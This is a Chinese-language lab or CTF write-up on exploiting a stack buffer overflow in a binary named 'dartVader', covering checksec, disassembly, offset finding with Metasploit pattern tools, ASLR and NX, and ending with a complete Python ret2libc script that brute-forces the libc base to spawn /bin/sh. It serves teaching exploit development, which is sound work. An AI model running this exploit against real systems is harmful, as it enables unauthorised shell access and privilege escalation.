

## 相关命令速查

### Msf

- 创建 600 字节缓冲区

```bash
msf-pattern_crate -l 600
```

- 确定字节

```bash
msf-pattern_offset -l 600 -q 35724134
```

- jum esp

```bash
msf-nasm_shell
```

```bash
jmp esp
```

## gdb-peda 分析

peda 是 Python Exploit Development Assistance 的缩写，这个工具是建立在 GDB 之上的，用 Python 编写的，旨在位利用开发提供版主。其设计初衷是为了让漏洞分析和利用开发过程更加直观高效，通过增强 GDB 的功能，如改进的堆栈、寄存器和内存显示，以及针对二进制分析和漏洞挖掘的实用工具，帮助安全研究人员更快地理解和利用程序中的漏洞。由于利用开发往往需要细致地分析程序执行状态、内存布局反编译代码，gdb-peda 的这些增强功能就显得尤为重要，能大大提升调试和漏洞利用的效率。

### gdb-peda 下载

```bash
┌──(kali㉿kali)-[~/Work/Kali]
└─$ sudo apt install gdb-peda
gdb-peda is already the newest version (1.2-0kali2).
The following packages were automatically installed and are no longer required:
  gcc-14-base:i386         libblkid-dev   libgio-2.0-dev-bin     libicu-dev     libpython3.12-minimal  libsepol-dev              native-architecture  python3-poetry-dynamic-versioning  python3.12-tk
  gir1.2-girepository-2.0  libflac12t64   libgirepository-1.0-1  liblbfgsb0     libpython3.12-stdlib   libsysprof-capture-4-dev  python3-aioconsole   python3-pywerview                  ruby-zeitwerk
  girepository-tools       libfuse3-3     libglapi-mesa          libplacebo349  libpython3.12t64       libutempter0              python3-dunamai      python3-setproctitle               strongswan
  icu-devtools             libgeos3.13.0  libglib2.0-dev-bin     libpoppler145  librav1e0.7            libx264-164               python3-nfsclient    python3-tomlkit
Use 'sudo apt autoremove' to remove them.

Summary:
  Upgrading: 0, Installing: 0, Removing: 0, Not Upgrading: 1420
```

### 启动分析

寻找 peda 存放位置

```bash
┌──(kali㉿kali)-[~/Work/Kali]
└─$ locate gdb-peda
/usr/share/gdb-peda
/usr/share/doc/gdb-peda
/usr/share/doc/gdb-peda/README.Debian
/usr/share/doc/gdb-peda/README.md
/usr/share/doc/gdb-peda/changelog.Debian.gz
/usr/share/doc/gdb-peda/copyright
/usr/share/gdb-peda/lib
/usr/share/gdb-peda/peda.py
/usr/share/gdb-peda/lib/config.py
/usr/share/gdb-peda/lib/nasm.py
/usr/share/gdb-peda/lib/shellcode.py
/usr/share/gdb-peda/lib/six.py
/usr/share/gdb-peda/lib/skeleton.py
/usr/share/gdb-peda/lib/utils.py
/var/lib/dpkg/info/gdb-peda.list
/var/lib/dpkg/info/gdb-peda.md5sums

┌──(kali㉿kali)-[~/Work/Kali]
└─$ ls /usr/share/gdb-peda   
lib  peda.py
```

启动 peda

```bash
┌──(kali㉿kali)-[~/Work/Kali]
└─$ gdb dartVader                                                   
GNU gdb (Debian 16.3-1) 16.3
Copyright (C) 2024 Free Software Foundation, Inc.
License GPLv3+: GNU GPL version 3 or later <http://gnu.org/licenses/gpl.html>
This is free software: you are free to change and redistribute it.
There is NO WARRANTY, to the extent permitted by law.
Type "show copying" and "show warranty" for details.
This GDB was configured as "x86_64-linux-gnu".
Type "show configuration" for configuration details.
For bug reporting instructions, please see:
<https://www.gnu.org/software/gdb/bugs/>.
Find the GDB manual and other documentation resources online at:
    <http://www.gnu.org/software/gdb/documentation/>.

For help, type "help".
Type "apropos word" to search for commands related to "word"...
pwndbg: loaded 201 pwndbg commands. Type pwndbg [filter] for a list.
pwndbg: created 13 GDB functions (can be used with print/break). Type help function to see them.
Reading symbols from dartVader...
(No debugging symbols found in dartVader)
------- tip of the day (disable with set show-tips off) -------
Use patch <address> '<assembly>' to patch an address with given assembly code
pwndbg> source /usr/share/gdb-peda/peda.py
gdb-peda$ 
```

#### checksec

```bash
gdb-peda$ checksec
CANARY    : disabled
FORTIFY   : disabled
NX        : ENABLED
PIE       : disabled
RELRO     : Partial
```

checksec 的结果反映了目标二进制文件在安全机制上的设置情况，既有不足也有一定的保护。首先，CANARY 和 FORTIFY 被禁用了，这意味着在栈溢出和缓冲区保护方面缺乏内置防护，我们可能利用这些缺陷进行溢出攻击；而 NX 是启用的状态，这会使得某些内存区域（如堆和栈）无法执行代码，从而对注入型攻击提供了一些保护。但同时， PIE 没有启用，说明程序的加载地址是固定的，这在一定程度上降低了地址随机化（aslr）带来的安全优势；RELRO 只处于部分保护状态，未能完全锁定重定位信息，使得部分内存泄漏或修改攻击仍有可能实现。

##### CANARY（栈保护金丝雀）

CANARY 是在函数返回地址前放置的一个哨兵值，用于检测栈溢出，如果这个值被破坏则说明缓冲区溢出已经发生。编辑器会在函数开始时在栈上防止一个随机值，函数返回前检查这个值是否被改动，如果被改动则终止程序，如果关闭则可能被攻击者直接覆盖返回地址。

##### FORTIFY（源码加固）

FORTITY 会检查危险函数，在运行时检测缓冲区溢出，如果检测到溢出即将发生则终止程序，如果关闭使用不安全函数时容易出问题。

##### NX（不可执行位）

NX（No eXecute），也叫 DEP，将内存区域标记为数据或指令。启用后栈和堆上的数据无法作为代码执行，如果攻击者将 shellcode 注入到栈上 CPU 也会拒绝执行，如果开启则必须使用 ROP 等技术绕过。

##### PIE（位置无关可执行文件）

PIE 配合 ASLR（地址空间分布随机化）使用，让程序每次运行时加载到内存的随机位置。这样攻击者无法预测函数、变量的具体地址，大大增加利用难度。

##### RELRO（重定位只读）

RELRO 保护 GOT（全局偏移表）不被改写，有两种模式：
1. Partial RELRO（部分）：将 GOT 放在 BSS 段前面，防止全局变量溢出覆盖 GOT，但本身仍可写。
2. Full RELRO（完全）：在程序启动时解析所有符号并将整个 GOT 标记为只读，彻底防止 GTO 改写攻击。

#### disassemble

主函数反汇编分析：

```bash
gdb-peda$ disassemble main
Dump of assembler code for function main:
   0x0804844d <+0>:     push   ebp
   0x0804844e <+1>:     mov    ebp,esp
   0x08048450 <+3>:     and    esp,0xfffffff0
   0x08048453 <+6>:     sub    esp,0x50
   0x08048456 <+9>:     cmp    DWORD PTR [ebp+0x8],0x1
   0x0804845a <+13>:    jne    0x8048470 <main+35>
   0x0804845c <+15>:    mov    DWORD PTR [esp+0x4],0x8048520
   0x08048464 <+23>:    mov    DWORD PTR [esp],0x1
   0x0804846b <+30>:    call   0x8048340 <errx@plt>
   0x08048470 <+35>:    mov    eax,DWORD PTR [ebp+0xc]
   0x08048473 <+38>:    add    eax,0x4
   0x08048476 <+41>:    mov    eax,DWORD PTR [eax]
   0x08048478 <+43>:    mov    DWORD PTR [esp+0x4],eax
   0x0804847c <+47>:    lea    eax,[esp+0x10]
   0x08048480 <+51>:    mov    DWORD PTR [esp],eax
   0x08048483 <+54>:    call   0x8048310 <strcpy@plt>
   0x08048488 <+59>:    leave
   0x08048489 <+60>:    ret
End of assembler dump.
```

这个是 x86 汇编语言呈现的 main 函数的底层指令序列。下面来拆解这段代码的功能与逻辑。

第一行输出分为四个部分：
第一部分是实际内存地址，例如 `0x0804844d`，表明该指令存放在内存中的具体位置；
第二部分是函数内偏移量，如 `<+>:`，表示该指令距离函数入口的字节数；
第三部分显示的是汇编指令助记符，比如 `push`、`mov` 等，指明了执行的具体操作；
第四部分是操作数，例如 `esp,0x50`，详细说明了指令操作的寄存器或内存地址。

整体上，这段代码是一个 C 程序的 main 函数的汇编表示。它检查命令行参数的数量，并在满足特定条件时调用 errx 函数（报错退出），否则将某个命令行参数复制到一个栈上的缓冲区中（通过 strcpy）。

##### 汇编语言基础


| 汇编命令  | 命令来源                           | 解释                                             |
| ----- | ------------------------------ | ---------------------------------------------- |
| push  | Push（推）                        | 将操作数压入栈顶，栈指针（esp）减小，通常用于保存寄存器值或传递参数。           |
| mov   | Move（移动）                       | 将源操作数的值复制到目标操作数，可以是寄存器、内存或立即数，用于数据传输。          |
| and   | And（与）                         | 对两个操作数执行按位与运算，结果存入目标操作数，常用于位操作或地址对齐。           |
| sub   | Subtract（减）                    | 从目标操作数中减去源操作数，结果存入目标操作数，用于计算或调整栈指针。            |
| cmp   | Compare（比较）                    | 比较两个操作数，通过减法设立标志位（不保存结果），用于条件判断。               |
| jne   | Jump if Not Equal（不相等则跳转）      | 如果不相等（零标志 ZF=0），跳转到指定地址，用于算数运算或地址偏移。           |
| call  | Call（调用）                       | 调整子程序，将下一条指令地址压栈并跳转到目标地址，常用于函数调用。              |
| add   | Add（加）                         | 将源操作数加到目标操作数上，结果存入目标操作数，用于算数运算或地址偏移。           |
| lea   | Load Effective Address（加载有效地址） | 计算有效地址并存入寄存器，不访问内存，仅用于地址计算。                    |
| leave | Leave（离开）                      | 恢复调用者的栈帧，相当于 mov esp,ebp 后 pop ebp，用于函数返回前的栈清理 |
| ret   | Return（返回）                     | 从栈顶弹出返回地址并跳转到该地址，结束当前函数执行。                     |

| 寄存器 | 寄存器来源/全拼                             | 解释                                          |
| --- | ------------------------------------ | ------------------------------------------- |
| ebp | Extended Base Pointer（扩展基指针）         | 基指针寄存器，通常保存当前函数的栈帧地址，用于访问局部变量、参数或维护栈帧结构。    |
| esp | Extended Stack Pointer（扩展栈指针）        | 栈指针寄存器，指向当前栈顶，用于管理栈的增长和收缩（如分配空间或传递参数）。      |
| eax | Extended Accumulator（扩展累加器）          | 累加器寄存器，常用于存储函数返回值、算数运算结果或作为通用数据寄存器。         |
| ebx | Extended Base（扩展基址寄存器）               | 基址寄存器，通用寄存器，常用于存储内存地址或数据，在某些调用约定中需要被调用者保存。  |
| ecx | Extended Counter（扩展计数器）              | 计数器寄存器，常用于循环计数（如 loop 指令）、字符串操作或作为同样寄存器。    |
| edx | Extended Data（扩展数据寄存器）               | 数据寄存器，常用于存储数据、I/O 操作，在乘除法中与 eax 配合存储扩展结果。   |
| esi | Extended source Index（扩展源索引）         | 源索引寄存器，常用于字符串操作的源地址指针或数组访问                  |
| edi | Extended Destination Index（扩展目标索引）   | 目标索引寄存器，常用于字符串操作的目标地址指针或数组访问。               |
| dip | Extended Instruction Pointer（扩展指令指针） | 指令指针寄存器，指向下一条要执行的指令地址，不能直接修改，只能通过跳转/调用命令改变。 |

> 以上内容如使用 pwngdb 原理相同。

## 手工测试缓冲区溢出漏洞

```bash
erso@deathStar1:~$ /bin/dartVader
dartVader: Voce tem um futuro aqui. Nao seja um Lammer, busque e aprenda realmente...

erso@deathStar1:~$ /bin/dartVader -h
erso@deathStar1:~$ /bin/dartVader asdsdadfgeyghujfgeahjkfghaekhfhaeukjfhjaelif
erso@deathStar1:~$ /bin/dartVader $(python3 -c 'print("A"*10)')
erso@deathStar1:~$ /bin/dartVader $(python3 -c 'print("A"*100)')
Segmentation fault (core dumped)
```

发现报错，Segmentation fault （段错误）。程序试图访问非法的内存地址，例如读取或写入未分配的内存、访问超出数组边界的内存、解引用空指针（null pointer）或未初始化的指针、访问受保护的系统内存区域等情形就会报这个错误。操作系统检测到这种非法操作后，会触发 “段错误” 并中止程序运行。而 ”Core Dumped（核心转储）“ 则表示，当段错误发生时，系统可能会生成一个 ”核心转储（core dump）“，记录程序崩溃时的内存状态。

/bin/dartVader 在处理 100 个 A 输入时访问了非法内存，很可能是由于缓冲区溢出或未正确处理长输入导致的。

```bash
erso@deathStar1:~$ dmesg |tail
[   10.915276] audit: type=1400 audit(1767178920.659:12): apparmor="STATUS" operation="profile_replace" profile="unconfined" name="/usr/lib/connman/scripts/dhclient-script" pid=949 comm="apparmor_parser"
[   10.915355] audit: type=1400 audit(1767178920.659:13): apparmor="STATUS" operation="profile_replace" profile="unconfined" name="/usr/lib/connman/scripts/dhclient-script" pid=949 comm="apparmor_parser"
[   10.917154] audit: type=1400 audit(1767178920.659:14): apparmor="STATUS" operation="profile_load" profile="unconfined" name="/usr/sbin/tcpdump" pid=951 comm="apparmor_parser"
[   11.063447] init: Failed to spawn thermald main process: unable to execute: No such file or directory
[   11.604512] ip_tables: (C) 2000-2006 Netfilter Core Team
[   11.654002] ip6_tables: (C) 2000-2006 Netfilter Core Team
[   11.865732] init: plymouth-upstart-bridge main process ended, respawning
[ 2566.209708] pcnet32 0000:02:01.0 eth0: link down
[ 2576.209677] pcnet32 0000:02:01.0 eth0: link up
[ 6771.328578] dartVader[2743]: segfault at 41414141 ip 41414141 sp bf80b560 error 14
```

> dmesg（diagnostic message）用于查看和打印 Linux 内核的消息缓冲。

最后一行与 dartVader 相关。/bin/dartVader（PID 2743）在时间戳 6771.328578 秒发生了段错误（segfault）。具体来说，错误发生在内存地址 0x41414141，该地址在十六进制下转换为 ASCII 是 AAAA，正是我们测试的内容，程序试图执行这个非法地址的指令，但它是我们输入的数据而非有效代码；栈指针 esp 为 0xbf80b560，记录了崩溃时的栈位置；错误码 14 表示页面错误（page fault），具体是访问了不可执行的内存区域。

可以确认有缓冲区溢出漏洞。一般来说缓冲区溢出漏洞，要写入 shellcode，这样看安全机制是否允许写入。所以利用还要看有什么安全机制，者关乎我们的利用方式和利用是否能成功。

```bash
erso@deathStar1:~$ readelf -W -l /bin/dartVader | grep GNU_STACK
  GNU_STACK      0x000000 0x00000000 0x00000000 0x00000 0x00000 RW  0x10
```

readelf 是用于查看 ELF（Executable and Linkable Format）格式文件信息的工具，ELF 是 Linux 下可执行文件、目标文件和共享库的标准格式。-l 参数显示程序头，-W 参数使用宽行输出，不截断过长的行，便于查看完整信息。

GNU_STACK 的权限是 RW（可读可写），没可以 X（可执行）。这意味着该程序的堆栈被标记为不可执行。这是现代操作系统中常见的安全特性（称为 NX 或 DEP，Data Execution Pervention），用于防止缓冲区溢出攻击中将恶意代码注入堆栈并执行。也可以在 Kali 中使用 scanelf 检查相关属性。

```bash
┌──(kali㉿kali)-[~/Work/Kali]
└─$ scanelf -e dartVader 
 TYPE   STK/REL/PTL FILE 
ET_EXEC RW- R-- RW- dartVader 
```

## 链接动态库依赖情况

查看程序的动态链接库：

```bash
erso@deathStar1:~$ ldd /bin/dartVader 
        linux-gate.so.1 =>  (0xb76e6000)
        libc.so.6 => /lib/i386-linux-gnu/libc.so.6 (0xb752a000)
        /lib/ld-linux.so.2 (0xb76e8000)
```

ldd 检查 /bin/dartVader 所依赖的共享库，ldd 命令会解析该程序的动态链接信息，并列出所有需要在运行时加载的库。输入中显示了 linux-gate.so.1、libc.so.6 以及动态加载器 /lib/ld-linux.so.2，这证明程序是动态链接的，并依赖这些系统库才能正常运行。从安全角度来看，这有助于了解目标程序的运行环境和潜在攻击面，比如库版本是否存在漏洞或是否容易被替换，从而为渗透测试提供信息。

libc 是指标准 C 库，是大多数 C 程序赖以运作的基础库，它包含了大量用于内存管理、字符串处理、文件操作、数学计算以及系统调用等常见功能。在 Linux 系统中，glibc 是 GNU 实现的 libc，它提供了与操作系统交互所必需的接口。大多数程序在运行时都需要调用 libc 中的函数，而在漏洞利用中，这些函数（比如 system）的位置常常成为攻击链的重要环节，被攻击者利用来实现诸如 ret2libc 的攻击手段，这种类型的攻击叫 ret2libc。

### ret2libc 介绍

ret2libc（Return-to-Libc）是一种缓冲区溢出漏洞攻击技术，其基本原理实在存在缓冲区溢出等漏洞时，通过覆盖函数返回地址，使程序跳转到 libc 库中的已知函数（例如 system）执行，从而达到执行任意命令的目的。这种攻击不需要注入新代码，二十利用目标程序中已有的、可信任的库函数，因此可以绕过某些内存保护机制（如不可执行栈 NX/DEP）。我们在漏洞利用过程中通常需要泄露或预测 libc 中这些关键函数地址，然后构造一个有效的攻击链，让程序在返回时跳转到这些函数执行预期的操作。

传统的缓冲区溢出攻击通过栈上注入恶意 shellcode，然后覆盖返回地址跳转到 shellcode 执行。但现代系统引入了 NX（No-eXecute）或 DEP（Data Excution Prevention），标记栈为不可执行，导致注入的 shellcode 无法运行。这是，攻击者发现程序通常会链接标准库（如 libc），其中包含许多有用函数（如 system、exit）。这些函数的代码已经在内存中，且是可执行的。于是，Ret2Libc 的思路诞生：与其注入代码，不如直接调用 libc 中的函数。

能实施 ret2libc 攻击主要需要几个条件。首先，目标程序必须存在能够控制返回地址的漏洞，比如缓冲区溢出等漏洞，允许我们覆盖函数返回地址。其次，程序必须动态连接了 libc。另外，由于现代系统普遍采取 ASLR 等内存随机化机制，攻击者还需要有办法泄露 libc 的地址信息或者存在其他绕错机制，否则无法准确定位函数地址。最后，如果系统还启用了 NX/DEP 等防护技术，攻击者也只能利用 ret2libc 这种不依赖注入代码的方式来实现代码执行。因此，漏洞本身、动态链接库以及系统防护配置都是决定是否能成功实施 ret2libc 攻击的关键因素。

#### ASLR

ASLR 全称为 Address Space Layout Randomization（地址空间布局随机化），是一种在每次程序运行时随机分配内存中各个区域加载地址的安全机制。它涵盖了堆、栈、共享库和可执行文件等多个内存区一，使得攻击者很难预测系统中的关键数据和函数的真实位置，从而大大降低了利用固定内存地址攻击的可能性。通过这种不断变换的地址布局，即使利用漏洞获取了部分内存信息，攻击者也难以构造有效的利用连，迫使攻击者不得不寻找信息泄露等其他手段来绕过这一防护措施

#### NX/DEP

NX/DEP 全称为 No eXecute/ Data Execution Prevention（不可执行内存/数据执行保护），是一种通过标记内存区域属性来组织恶意代码执行的技术。该机制会将通常用于存储数据的内存区域（例如堆或栈）标记为不可执行区域，从而防止利用缓冲区溢出等漏洞注入并执行代码。NX 主要针对内存页属性，而 DEP 则更多体现在操作系统对整个内存管理的安全策略上。两者结合起来，有效放置了大部分传统的代码注入攻击，使得攻击者必须依赖 ret2lib 等间接利用技术绕过防护。

### ASLR 状态评估

每次执行 ldd 查看动态链接库时都能看到内存中加载的地址不同。

```bash
erso@deathStar1:~$ ldd /bin/dartVader 
        linux-gate.so.1 =>  (0xb77d1000)
        libc.so.6 => /lib/i386-linux-gnu/libc.so.6 (0xb7615000)
        /lib/ld-linux.so.2 (0xb77d3000)
erso@deathStar1:~$ ldd /bin/dartVader
        linux-gate.so.1 =>  (0xb77a9000)
        libc.so.6 => /lib/i386-linux-gnu/libc.so.6 (0xb75ed000)
        /lib/ld-linux.so.2 (0xb77ab000)
```

这是系统启用了 ASLR 的典型特征，具体验证一下。

```bash
erso@deathStar1:~$ cat /proc/sys/kernel/randomize_va_space 
2
```

没错，有 aslr 的存在。它在每次加载程序时都会随机分配动态库的加载地址，目的就是防止攻击者利用固定地址进行利用。

`/proc/sys/kernel/randomize_va_space`  这个文件用于控制 Linux 系统中地址空间布局随机化：
0. 值为 0 时表示关闭 ASLR，此时加载个内存区域的地址固定不变；
1. 值为 1 时表示开启部分随机化，这种模式下虽然某些区域（例如堆、栈）会随机化，但有的内存区域可能仍然固定或仅随机化有限，使得某些漏洞的利用风险依然存在。
2. 值为 2 时表示完成开启 ASLR，所有相关内存区域在每次加载时都会尽可能随机化。

可以尝试将其修改为 0，但是权限往往不允许。

```bash
erso@deathStar1:~$ echo 0 > /proc/sys/kernel/randomize_va_space
-bash: /proc/sys/kernel/randomize_va_space: Permission denied
```

```bash
erso@deathStar1:~$ readelf -s /lib/i386-linux-gnu/libc.so.6 | grep -E "(system|exit)"
   111: 00033690    58 FUNC    GLOBAL DEFAULT   12 __cxa_at_quick_exit@@GLIBC_2.10
   139: 00033260    45 FUNC    GLOBAL DEFAULT   12 exit@@GLIBC_2.0
   243: 0011b8a0    73 FUNC    GLOBAL DEFAULT   12 svcerr_systemerr@@GLIBC_2.0
   446: 000336d0   268 FUNC    GLOBAL DEFAULT   12 __cxa_thread_atexit_impl@@GLIBC_2.18
   554: 000b8634    24 FUNC    GLOBAL DEFAULT   12 _exit@@GLIBC_2.0
   609: 0011e780    56 FUNC    GLOBAL DEFAULT   12 svc_exit@@GLIBC_2.0
   620: 00040310    56 FUNC    GLOBAL DEFAULT   12 __libc_system@@GLIBC_PRIVATE
   645: 00033660    45 FUNC    GLOBAL DEFAULT   12 quick_exit@@GLIBC_2.10
   868: 00033490    84 FUNC    GLOBAL DEFAULT   12 __cxa_atexit@@GLIBC_2.1.3
  1037: 00128ce0    60 FUNC    GLOBAL DEFAULT   12 atexit@GLIBC_2.0
  1380: 001ad204     4 OBJECT  GLOBAL DEFAULT   31 argp_err_exit_status@@GLIBC_2.1
  1443: 00040310    56 FUNC    WEAK   DEFAULT   12 system@@GLIBC_2.0
  1492: 000fb610    62 FUNC    GLOBAL DEFAULT   12 pthread_exit@@GLIBC_2.0
  2090: 001ad154     4 OBJECT  GLOBAL DEFAULT   31 obstack_exit_failure@@GLIBC_2.0
  2243: 00033290    77 FUNC    WEAK   DEFAULT   12 on_exit@@GLIBC_2.0
  2386: 000fc180     2 FUNC    GLOBAL DEFAULT   12 __cyg_profile_func_exit@@GLIBC_2.2
```

上面查询证明 libc 库中能确定 system、exit 等关键函数在内存中相对具体位置。

## 利用编写

### 确定缓冲区大小

```bash
┌──(kali㉿kali)-[~/Work/Kali]
└─$ msf-pattern_create -l 100
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2A
```

```bash
┌──(kali㉿kali)-[~/Work/Kali]
└─$ ./dartVader Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2A
zsh: segmentation fault  ./dartVader 
                                                                                                                              
┌──(kali㉿kali)-[~/Work/Kali]
└─$ dmesg | tail            
[  239.138010] e1000 0000:02:01.0 eth0: entered promiscuous mode
[  280.639404] e1000 0000:02:01.0 eth0: left promiscuous mode
[  282.078779] e1000 0000:02:01.0 eth0: entered promiscuous mode
[  288.329418] e1000 0000:02:01.0 eth0: left promiscuous mode
[  299.600495] e1000 0000:02:01.0 eth0: entered promiscuous mode
[  419.601025] e1000 0000:02:01.0 eth0: left promiscuous mode
[ 2735.339190] e1000: eth0 NIC Link is Down
[ 2739.367371] e1000: eth0 NIC Link is Up 1000 Mbps Full Duplex, Flow Control: None
[12358.851973] dartVader[103250]: segfault at 63413563 ip 0000000063413563 sp 00000000ff8cde70 error 14 likely on CPU 1 (core 1, socket 0)
[12358.851987] Code: Unable to access opcode bytes at 0x63413539.
```

```bash
┌──(kali㉿kali)-[~/Work/Kali]
└─$ msf-pattern_offset -l 100 -q 0x63413563        
[*] Exact match at offset 76
```

在本地暴力填充确定缓冲区溢出的偏移长度。

确定需要用到的函数地址。

```bash
erso@deathStar1:~$ readelf -s /lib/i386-linux-gnu/libc.so.6 | grep -E "(system|exit)"
   111: 00033690    58 FUNC    GLOBAL DEFAULT   12 __cxa_at_quick_exit@@GLIBC_2.10
   139: 00033260    45 FUNC    GLOBAL DEFAULT   12 exit@@GLIBC_2.0
   243: 0011b8a0    73 FUNC    GLOBAL DEFAULT   12 svcerr_systemerr@@GLIBC_2.0
   446: 000336d0   268 FUNC    GLOBAL DEFAULT   12 __cxa_thread_atexit_impl@@GLIBC_2.18
   554: 000b8634    24 FUNC    GLOBAL DEFAULT   12 _exit@@GLIBC_2.0
   609: 0011e780    56 FUNC    GLOBAL DEFAULT   12 svc_exit@@GLIBC_2.0
   620: 00040310    56 FUNC    GLOBAL DEFAULT   12 __libc_system@@GLIBC_PRIVATE
   645: 00033660    45 FUNC    GLOBAL DEFAULT   12 quick_exit@@GLIBC_2.10
   868: 00033490    84 FUNC    GLOBAL DEFAULT   12 __cxa_atexit@@GLIBC_2.1.3
  1037: 00128ce0    60 FUNC    GLOBAL DEFAULT   12 atexit@GLIBC_2.0
  1380: 001ad204     4 OBJECT  GLOBAL DEFAULT   31 argp_err_exit_status@@GLIBC_2.1
  1443: 00040310    56 FUNC    WEAK   DEFAULT   12 system@@GLIBC_2.0
  1492: 000fb610    62 FUNC    GLOBAL DEFAULT   12 pthread_exit@@GLIBC_2.0
  2090: 001ad154     4 OBJECT  GLOBAL DEFAULT   31 obstack_exit_failure@@GLIBC_2.0
  2243: 00033290    77 FUNC    WEAK   DEFAULT   12 on_exit@@GLIBC_2.0
  2386: 000fc180     2 FUNC    GLOBAL DEFAULT   12 __cyg_profile_func_exit@@GLIBC_2.2
```

```bash
erso@deathStar1:~$ ldd /bin/dartVader 
        linux-gate.so.1 =>  (0xb76e1000)
        libc.so.6 => /lib/i386-linux-gnu/libc.so.6 (0xb7525000)
        /lib/ld-linux.so.2 (0xb76e3000)
erso@deathStar1:~$ strings -t x /lib/i386-linux-gnu/libc.so.6 | grep -E /bin/sh
 162d4c /bin/sh
```

下面为 exit 和 system 的地址：

`   139: 00033260    45 FUNC    GLOBAL DEFAULT   12 exit@@GLIBC_2.0`

`  1443: 00040310    56 FUNC    WEAK   DEFAULT   12 system@@GLIBC_2.0`

攥写利用脚本：

```bash
┌──(kali㉿kali)-[~/Work/Kali]
└─$ vim ret2libc.py
                                                                                                                              
┌──(kali㉿kali)-[~/Work/Kali]
└─$ cat ret2libc.py 
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
from struct import pack
from subprocess import call

offset = b"A" * 76
libc = 0xb75c9000
system = pack("<I", libc + 0x40310)
exit = pack("<I", libc + 0x33260)
sh = pack("<I",libc + 0x162d4c)

buffer = offset + system + exit + sh
app = b"/bin/dartVader"

for i in range(1024):
    print("Attemp %d" % i)
    ret = call([app,buffer])
    if ret == 0:
        print("[+] Success!!!")
        break
    else:
        print("[-] Failed")
```

buffer 由四段组成，offset 填充缓冲区后 system 执行命令 `system("/bin/sh")`，其中 sh 提供 /bin/sh 地址，让 system 抛出 shell。 exit 通常是必要的，它作为 system 的返回地址，遵循 x86 的调用约定（返回地址紧跟函数地址，参数在返回地址后），确保 sh 在 `ESP+4` 被 system 读取，同时防止 system 返回后跳转到 sh 或随机地址。如果没有 exit 会导致崩溃。

使用 struct.pack 的目的是将数值形式的地址转换为机器能直接识别的二进制格式，从而能够直接写入内存覆盖返回地址，达到利用的效果。其中 `pack("<I", ...)` 中的 `<` 表示小端格式，而 I 则表示一个 4 字节的无符号整数，确保生成的地址在内存中按照正确的字节顺序排列。

循环中调用了 python 标准库中的 subprocess 模块中的 call 函数，用于启动子进程执行可利用程序。传入的参数是一个列表，第一个元素是目标程序的路径，第二个原色是构造好的 payload，作为命令行参数传给目标程序。call 函数会等待子进程结束，并返回该进程的退出状态码并赋值给 ret，0 表示正常退出，非 0 表示可能未利用成功。

成功利用。

